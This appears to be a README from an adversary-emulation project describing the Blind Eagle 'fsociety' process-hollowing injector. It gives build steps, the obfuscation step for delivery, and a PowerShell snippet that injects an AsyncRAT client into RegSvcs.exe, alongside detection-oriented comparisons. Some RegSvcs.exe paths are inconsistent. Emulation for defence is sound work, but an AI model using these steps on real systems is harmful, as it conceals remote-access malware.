 # fsociety DLL

## Overview

fsociety DLL is an injector that Blind Eagle has used in operations<sup>[1](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia),[2](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/)</sup>. fsociety is a single program written in C# that leverages process hollowing to inject a payload into another program - usually RegSvcs.exe or RegAsm.exe. The original source code has been rewritten in a de-obfuscated fasion for readability<sup>[3](https://otx.alienvault.com/indicator/file/03b7d19202f596fe4dc556b7da818f0f76195912e29d728b14863dda7b91d9b5)</sup>. The de-obfuscated code shares many similarities with the [Lime-Crypter](https://github.com/NYAN-x-CAT/Lime-Crypter/blob/master/Lime-Crypter/Resources/Stub.cs) implementation of RunPE, however the threat actor has added some wrappers for windows APIs in addition to importing them.

## Usage

fsociety is downloaded and ran by `fiber.dll` as part of the infection chain. prior to running, `fsociety.dll` is manipulated by the threat actor to be base64 encoded, have all `A`s replaced with a Unicode string, and then reversed. The utility `file-ops.py` has been created in the Util folder to assist in replicating the obfuscation of the binary for delivery.

Windows:
```PowerShell
py.exe ./file-ops.py -f path\to\repo\birdsofprey\Resources\Efsociety\Efsociety\bin\Release\Efsociety.dll
```

Linux/Mac:
```bash
python3 ./file-ops.py -f path/to/repobirdsofprey/Resources/Efsociety/Efsociety/bin/Release/Efsociety.dll
```

## Troubleshooting

Sometimes injection does not work on the first try and an implant will not succeed. If this happens verify that the target path exists: `C:\Windows\Microsoft.NET\Framework\v4.0.3819\RegSvcs.exe` and that the PE being injected is set up in the proper format with `file-ops.py`

## Testing

To verify that `fsociety.dll` is injecting properly it can be tested from a PowerShell prompt with either an AsyncRAT payload OR another payload of your choosing. To do this first follow the instructions in [AsyncRAT README](../../AsyncRAT-C%23/README.md) to build the server and create a client with instructions in [AsyncRAT Client README](../../AsyncRAT-C%23/Client/README.MD).

Once the server is running you can use the following PowerShell to test `fsociety.dll` filling in the paths with ones specific to your system:

```PowerShell
 $assembly = [Reflection.Assembly]::LoadFile("c:\path\to\repo\birdsofprey\Resources\Efsociety\Efsociety\bin\Release\Efsociety.dll")
 $bytes = [System.IO.File]::ReadAllBytes("c:\path\to\payload\AsyncRAT-Client.exe")
 [fsociety.Tools]::Ande("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\RegSvcs.exe", $bytes)
```

If successful you should receive a callback from the AsyncRAT client on the server and when hovering the mouse over the client see that the Path values is `C:\Windows\Microsoft.NET\Framwork\v4.0.3819\RegSvcs.exe` indicating that AsyncClient is living in the legitimate RegSvcs.exe process:

![injected-client](../../Screenshots/injected-client-path.png)

Likewise a tool such as Process Hacker will show the AsyncClient assembly loaded into RegSvcs.exe with the path showing the path to RegSvcs.exe:

![Process-Hacker-injected-client](../../Screenshots/async-client-loaded-regsvcs.png)

Likewise if you look at the modules and method tables associated with the legitimate RegSvcs.exe and the injected RegSvcs.exe you can spot many differences - including the Image Size and Resource Tables information. The method tables are completely different for the injected RegSvcs.exe vs the legitimate version

Normal RegSvcs.exe modules

![normal](../../Screenshots/legit-regsvcs-modules.png)

Injected RegSvcs.exe modules

![injected](../../Screenshots/regsvcs-injected-modules.png)

Normal RegSvcs.exe Method Table

![normal](../../Screenshots/legit-method-table.png)

Injected RegSvcs.exe Method Table

![injected](../../Screenshots/injected-method-table.png)

## Build

Two build options are presented. The CLI can be used with devenv.exe to build the `fsociety.sln` solution. Also instructions for the Visual Studio GUI are also included:

### CLI

```PowerShell
PS C:\<path>\<to>\birdsofprey\Resources\Efsociety> 'C:\Program Files | [x86]\Microsoft Visual Studio\<version>\<Professional|blank>\Common7\IDE\devenv.exe' fsociety.sln /Build "Release"
```

### GUI

1) Open Solution in Visual Studio - this option is presented upon Visual Studio opening

    ![open](../../Screenshots/open-solution.png)

    ![asyncrat-sln](../../Screenshots/fsociety-sln.png)

2) In the menu bar near the top of the window, change the dropdown from Debug to Release - this will build and remove any debugging assistance from the project:

    ![debug->release](../../Screenshots/asyncrat-vs-build-release.png)

3) In the menu bar at the top of the window, select Build -> Build Solution. The completed executables will be located in `birdsofprey\Resources\Efsociety\bin\Release`

    ![build](../../Screenshots/asyncrat-vs-build-solution.png)

## References and CTI

1) https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia

2) https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/

3) https://otx.alienvault.com/indicator/file/03b7d19202f596fe4dc556b7da818f0f76195912e29d728b14863dda7b91d9b5
